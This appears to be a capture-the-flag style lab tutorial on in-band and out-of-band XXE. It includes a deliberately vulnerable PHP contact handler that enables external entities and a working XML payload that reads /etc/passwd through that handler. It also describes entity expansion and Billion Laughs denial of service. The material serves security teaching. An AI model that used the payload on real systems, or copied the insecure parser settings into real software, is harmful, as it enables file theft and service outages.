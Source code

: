 # In-Band vs Out-of-Band XXE

In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.

Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

### In-Band XXE Exploitation

We will be using Burp s for this room. To demonstrate this vulnerability, go to http://10.10.189.204/contact.php  and fill out the form.

![Homepage of the application](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/db8f3f703dd6b8641d5555ed6ead1b49.png)  

Click the submit button and intercept the request.

![Intercepted request of the contact form](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/734c868f5e54ae3b3d0c3539301f2256.png)  

The submitted data is processed by contact_submit.php, which contains a vulnerable PHP code designed to return the value of the name parameter when a user submits a message in the form. Below is the vulnerable code:

```php
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```

Since the application returns the value of the name parameter, we can inject an entity that is pointing to `/etc/passwd` to disclose its values.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```

Using the payload above, replace the initial XML data submitted to contact_submit.php and resend the request.

![Injected xxe payload pointed to /etc/passwd file](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/2f5c2d1f8e4c04b03daa1240463e7580.png)  

### XML Entity Expansion

XML Entity Expansion is a technique often used in XXE attacks that involves defining entities within an XML document, which the XML parser then expands. Attackers can abuse this feature by creating recursive or excessively large entities, leading to a Denial of Service (DoS) attack or defining external entities referencing sensitive files or services. This method is central to both in-band and out-of-band XXE, as it allows attackers to inject malicious entities into the XML data. For example:

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact><name>&xxe; &xxe;
</name><email>test@test.com</email><message>test</message></contact>
```

In the payload above, `&xxe;` is expanded wherever it appears. Attackers can use entity expansion to perform a Billion Laughs attack, where a small XML document recursively expands to consume server resources, leading to a denial of service.

![XML Expansion in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/3e45b26afe9371b2061afbdba33ea3ce.png)

